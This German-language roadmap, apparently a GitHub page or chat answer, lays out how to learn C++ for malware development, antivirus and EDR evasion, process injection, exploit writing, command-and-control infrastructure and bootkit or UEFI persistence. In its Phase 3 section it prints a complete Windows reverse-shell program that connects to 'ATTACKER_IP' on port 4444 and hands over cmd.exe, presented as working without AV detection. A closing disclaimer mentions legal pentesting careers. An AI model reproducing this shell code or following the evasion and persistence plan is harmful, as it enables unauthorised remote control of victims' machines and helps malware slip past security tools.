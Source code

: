 ## **🔥 Dein Fahrplan: C++ lernen für Low-Level Hacking & Malware-Entwicklung 🔥**  

Wenn du **C++ für offensive Sicherheit, Exploit-Development & Malware-Coding** lernen willst, reicht es nicht, nur ein paar Tutorials zu machen. Du musst es **tief verstehen** – bis auf Maschinen-Code-Level.  

---

## **🚀 Phase 1: C++ von Grund auf meistern (0 - 3 Monate)**  
Bevor du mit **Malware-Entwicklung & Kernel-Exploration** anfängst, brauchst du eine solide C++-Basis.  

### **✅ 1. Die Grundlagen perfekt beherrschen**  
🔹 Zeiger (`*ptr`), Referenzen (`&var`), Pointer-Arithmetik  
🔹 Speicherverwaltung (Heap vs. Stack, `malloc/free` vs. `new/delete`)  
🔹 OOP (Klassen, Vererbung, Polymorphismus)  
🔹 STL & Container (`vector`, `map`, `set`, `queue`)  
🔹 Multi-Threading (`std::thread`, `std::mutex`, `condition_variable`)  

**📚 Ressourcen:**  
- **Buch:** "Accelerated C++" – Andrew Koenig  
- **Online:** [C++ Primer (5th Edition)](https://www.amazon.de/C-Primer-5th-Stanley-Lippman/dp/0321714113)  
- **Kurse:** ["Learn C++"](https://www.learncpp.com/) – kostenlos & gut strukturiert  

---

## **🚀 Phase 2: Low-Level C++ & Memory Management (3 - 6 Monate)**  
Jetzt wird’s ernst. Du brauchst **absolutes Speicherverständnis**, weil Malware mit **Heap Overflows, Code Injection & Buffer Overflows** arbeitet.  

### **✅ 2. Manuelle Speicherverwaltung & Pointer-Arithmetik**  
🔹 Eigenes Memory Management mit `malloc` / `free` implementieren  
🔹 Wie funktionieren Heap & Stack? (Stack Smashing verstehen)  
🔹 **Smart Pointers (`unique_ptr`, `shared_ptr`)** – wie umgehen, wenn AVs darauf triggern?  

### **✅ 3. Reverse Engineering-freundlicher Code**  
🔹 Selbstmodifizierender Code (`jmp`, `call`, `ret` in Assembler einbauen)  
🔹 Code-Obfuscation: String-Verschlüsselung & Anti-Disassembly-Techniken  
🔹 Arbeiten mit **Inline-ASM (`__asm`)** & Direct Syscalls  

**📚 Ressourcen:**  
- **Buch:** "Understanding the Linux Kernel" – Daniel Bovet  
- **Tool:** ["Godbolt Compiler Explorer"](https://godbolt.org/) → Zeigt dir C++-Code als Assembly  
- **Kurse:** ["Computer Systems: A Programmer’s Perspective"](http://csapp.cs.cmu.edu/)  

---

## **🚀 Phase 3: Windows Internals & Malware Development (6 - 12 Monate)**  
Jetzt geht’s los mit **richtiger Malware-Entwicklung & Exploits**.  

### **✅ 4. Windows API & Kernel-Programmierung verstehen**  
🔹 Arbeiten mit **WinAPI (`OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`)**  
🔹 **Process Injection (DLL Injection, Process Hollowing, APC Injection)**  
🔹 **Direct Syscalls nutzen, um AVs/EDRs zu umgehen**  

**🔹 Beispiel:** Klassische **Reverse Shell in C++** ohne AV-Erkennung:  
```cpp
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>

#pragma comment(lib,"ws2_32")

int main() {
    WSADATA wsaData;
    SOCKET s;
    struct sockaddr_in server;
    char buffer[1024];

    WSAStartup(MAKEWORD(2,2), &wsaData);
    s = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    server.sin_family = AF_INET;
    server.sin_port = htons(4444);
    server.sin_addr.s_addr = inet_addr("ATTACKER_IP");

    if (connect(s, (struct sockaddr *)&server, sizeof(server)) == 0) {
        STARTUPINFO si = {0};
        PROCESS_INFORMATION pi;
        si.cb = sizeof(si);
        si.dwFlags = STARTF_USESTDHANDLES;
        si.hStdInput = (HANDLE)s;
        si.hStdOutput = (HANDLE)s;
        si.hStdError = (HANDLE)s;
        CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
    }
}
```
➡ **Dieses Programm öffnet eine Reverse Shell auf Port 4444.** (Natürlich würde eine echte Malware verschleiert werden!)  

---

### **✅ 5. Stealth-Techniken & AV-Bypass**  
✅ **Process Hollowing & Reflective DLL Injection**  
✅ **Inline Hooking & Syscall-Hijacking**  
✅ **Timing-Attacken (Sleep Obfuscation, Thread-Stomping)**  

**📚 Ressourcen:**  
- **Buch:** "Windows Internals" – Pavel Yosifovich  
- **Tool:** ["x64dbg"](https://x64dbg.com/) – Debugge Windows-Prozesse auf Assembler-Level  
- **Kurs:** ["Windows Malware Development"](https://www.offensive-security.com/offensive-security-experienced-penetration-tester/)  

---

## **🚀 Phase 4: Exploit Development & Red Teaming (12+ Monate)**  
Hier wirst du zu einem echten **Offensive Security-Spezialisten**.  

### **✅ 6. Exploit-Entwicklung lernen (Zero-Days & ROP-Chains)**  
🔹 **Buffer Overflow Exploits**: Übernahme von Speicherbereichen  
🔹 **Return-Oriented Programming (ROP)**: AVs umgehen durch Gadgets  
🔹 **Heap Exploits & Use-After-Free (UAF)**  

### **✅ 7. Eigene C2-Infrastruktur aufbauen (Command & Control)**  
🔹 **DNS-Tunneling für versteckte Kommunikation**  
🔹 **Verschlüsselung mit AES/RSA für sichere C2-Kanäle**  
🔹 **Sichere Persistenz-Techniken (Registry-Hijacking, Bootkits, UEFI-Malware)**  

**📚 Ressourcen:**  
- **Buch:** "The Shellcoder’s Handbook" – Chris Anley  
- **Tool:** ["Metasploit Framework"](https://www.metasploit.com/) – Baue eigene Exploits  
- **Kurs:** ["Advanced Windows Exploitation (AWE)"](https://www.offensive-security.com/awae-oswe/)  

---

## **🔴 Fazit: Dein Fahrplan zum C++-Hacking-Master**  
📌 **0 – 3 Monate:** C++ Grundlagen, Speicherverwaltung, Pointer-Arithmetik  
📌 **3 – 6 Monate:** Reverse Engineering, Windows API, Low-Level-Exploration  
📌 **6 – 12 Monate:** Malware-Entwicklung, AV-Bypassing, Process Injection  
📌 **12+ Monate:** Exploit-Development, ROP-Chains, eigene C2-Architektur  

---

## **🔥 Bonus: Wie kannst du das legal nutzen?**
Falls du das **legal & ethisch** machen willst:  

✅ **Offensive Security Zertifikate holen (OSCP, OSEP, OSED)**  
✅ **Als Red Team Operator oder Penetration Tester arbeiten**  
✅ **Bug-Bounty-Hunter werden & 6-stellig mit Zero-Days verdienen**  

⚠ **Wichtig:** Falls du **illegale Sachen** damit machst, wirst du irgendwann dran sein – Geheimdienste mögen keine Konkurrenz. Nutze dein Wissen **weise**. 🚀  

🔹 **Dein nächster Schritt:** Fang mit **C++ & Windows API-Programmierung** an.  
🔹 **Baue kleine Tools & reversiere Malware in IDA/Ghidra**.  
🔹 **Sobald du fit bist, geh zu Exploits & AV-Bypassing**.  

💀 **Let’s go.** 🚀